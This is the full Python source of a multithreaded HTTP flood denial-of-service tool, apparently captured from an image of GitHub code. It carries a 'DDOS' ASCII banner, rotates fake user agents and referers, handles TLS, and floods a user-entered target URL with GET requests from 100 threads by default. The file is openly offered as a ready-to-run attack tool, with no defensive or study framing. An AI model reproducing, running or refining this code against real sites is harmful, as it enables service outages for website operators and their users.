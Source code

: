 import socket
import threading
import random
import time
import ssl
from urllib.parse import urlparse

class HttpFloodAttack:
    def __init__(self):
        self.target_url = ""
        self.target_ip = ""
        self.target_port = 80
        self.threads = 100
        self.attack_running = False
        self.user_agents = [
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
            "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)",
            "Mozilla/5.0 (Linux; Android 10; SM-G975F)",
            "Mozilla/5.0 (iPhone; CPU iPhone OS 13_3 like Mac OS X)"
        ]
        self.referers = [
            "https://www.google.com/",
            "https://www.bing.com/",
            "https://www.yahoo.com/",
            "https://www.facebook.com/"
        ]
    
    def parse_url(self, url):
        parsed = urlparse(url)
        self.target_ip = socket.gethostbyname(parsed.hostname)
        self.target_port = parsed.port if parsed.port else (443 if parsed.scheme == 'https' else 80)
        return parsed.path if parsed.path else '/'
    
    def set_target(self, url):
        self.target_url = url
        self.path = self.parse_url(url)
    
    def set_threads(self, num):
        self.threads = num
    
    def create_socket(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)
        
        if self.target_port == 443:
            context = ssl.create_default_context()
            s = context.wrap_socket(s, server_hostname=self.target_url)
        
        return s
    
    def send_request(self):
        try:
            s = self.create_socket()
            s.connect((self.target_ip, self.target_port))
            
            user_agent = random.choice(self.user_agents)
            referer = random.choice(self.referers)
            
            headers = [
                f"GET {self.path} HTTP/1.1",
                f"Host: {self.target_url}",
                f"User-Agent: {user_agent}",
                f"Referer: {referer}",
                "Accept: text/html,application/xhtml+xml",
                "Connection: keep-alive",
                "\r\n"
            ]
            
            request = "\r\n".join(headers)
            s.send(request.encode())
            
            # إبقاء الاتصال مفتوحًا لفترة قصيرة
            time.sleep(random.uniform(0.1, 0.3))
            s.close()
            
            print(f"[+] Request sent to {self.target_url}")
        except Exception as e:
            print(f"[-] Error: {str(e)}")
    
    def attack(self):
        while self.attack_running:
            self.send_request()
    
    def start_attack(self):
        if not self.target_url:
            print("[-] Please set target URL first!")
            return
        
        self.attack_running = True
        print(f"[*] Starting HTTP Flood attack on {self.target_url}")
        print(f"[*] Using {self.threads} threads")
        print("[*] Press Ctrl+C to stop")
        
        for _ in range(self.threads):
            thread = threading.Thread(target=self.attack)
            thread.daemon = True
            thread.start()
        
        try:
            while self.attack_running:
                time.sleep(1)
        except KeyboardInterrupt:
            self.stop_attack()
    
    def stop_attack(self):
        self.attack_running = False
        print("[*] Attack stopped")

def main():
    tool = HttpFloodAttack()
    
    print("""
    ██████╗ ██████╗  ██████╗ ███████╗
    ██╔══██╗██╔══██╗██╔═══██╗██╔════╝
    ██║  ██║██║  ██║██║   ██║███████╗
    ██║  ██║██║  ██║██║   ██║╚════██║
    ██████╔╝██████╔╝╚██████╔╝███████║
    ╚═════╝ ╚═════╝  ╚═════╝ ╚══════╝
    HTTP Flood Tool - Python
    """)
    
    try:
        target_url = input("Enter target URL (e.g., http://example.com): ").strip()
        if not target_url.startswith(('http://', 'https://')):
            target_url = 'http://' + target_url
        
        threads = int(input("Enter number of threads (default 100): ") or "100")
        
        tool.set_target(target_url)
        tool.set_threads(threads)
        tool.start_attack()
    except Exception as e:
        print(f"[-] Error: {str(e)}")

if __name__ == "__main__":
    main()
